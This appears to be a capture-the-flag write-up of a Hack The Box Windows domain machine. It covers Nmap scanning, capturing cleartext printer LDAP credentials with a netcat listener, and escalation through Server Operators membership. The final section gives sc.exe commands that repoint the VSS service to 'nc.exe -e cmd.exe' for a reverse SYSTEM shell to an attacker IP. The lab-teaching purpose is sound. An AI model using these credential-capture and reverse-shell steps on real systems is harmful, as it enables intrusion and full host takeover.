







Box author | 

<!--more-->

## Nmap

First, let's start scanning the IP address with the Nmap.

### result

```sql
# Nmap 7.92 scan initiated Sat Apr  2 02:24:05 2022 as: nmap -sC -sV -oN nmap/return 10.10.11.108
Nmap scan report for 10.10.11.108
Host is up (0.053s latency).
Not shown: 988 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-04-01 18:42:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-01T18:42:56
|_  start_date: N/A
|_clock-skew: 18m34s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  2 02:24:25 2022 -- 1 IP address (1 host up) scanned in 20.29 seconds
```

That's a bunch of open ports. Turns out, this machine is an Active Directory Domain.

## Http

The `port 80` is got my attention because the Nmap scan result says, the title of the webpage is `HTB Printer Admin Panel`. Let's take a look at it, which is running on `Microsoft IIS`.



It is a simple webpage and a lot of the buttons on the navigation bar don't work at all. However, when I clicked on the `Settings` button. I've been greeted by this!



So, I tried to change the password first and play around with it but nothing has happens. Then, I google around and found this [HackTricks - AD information in printers](https://book.hacktricks.xyz/windows/active-directory-methodology/ad-information-in-printers). It highlights some blogs too: 
- [https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/](https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/)
- [https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856](https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856)
- [https://grimhacker.com/2018/03/09/just-a-printer/](https://grimhacker.com/2018/03/09/just-a-printer/)

### NetCat

First, let's start the `nc` and listen to `port 389`. Then, in the `settings` page, change the `Server Address` into your IP address which is tun0, and click `Update`.




In the image above. The `nc` successfully grabs the password and it's in form of `clear-text`.

## Evil-WinRM

Now, I have the password of the `svc-printer` user. Let's try to connect to this machine by using `Evil-WinRM`.



YES! I'm in. This user also can read the `user flag` located in this directory `C:\Users\svc-printer\Desktop`.

### Server Operators

The first thing I love to do is run this command `whoami /all`. This command is gonna display user, group, and privileges information for the user who is currently logged on. 



Here's the result. The `BUILTIN\Server Operators` caught my eyes. Why? because this group can create and delete network shared resources, start and stop services, back up and restore files. Need more information on this group. Here's the link [Microsoft - Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)

So, I start googling around and found this [cube0x0 - Poc'ing Beyond Domain Admin - Part 1](https://cube0x0.github.io/Pocing-Beyond-DA/). This article shows us how to stop and start services. 

### nc.exe

First, I'm gonna start the `python http server` in my attack machine in the directory called `www` and it contains the copy of the `nc.exe` file. Then, `download` it into the victim machine which is a Windows machine.



## System Shell

So, In this [article](https://cube0x0.github.io/Pocing-Beyond-DA/) is straight forward and I'm gonna change the service configuration. In this case, I'm gonna change the `VSS config` to run the `nc.exe` but first, I'm gonna start the `nc listener` in my attack machine on my desired port. Anyways, the command is down below:

```powershell
# Here's the command
sc.exe config VSS binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.14.14 9901"
sc.exe stop VSS
sc.exe start VSS
```



TA DAAA!!! now I'm an `authority\system`.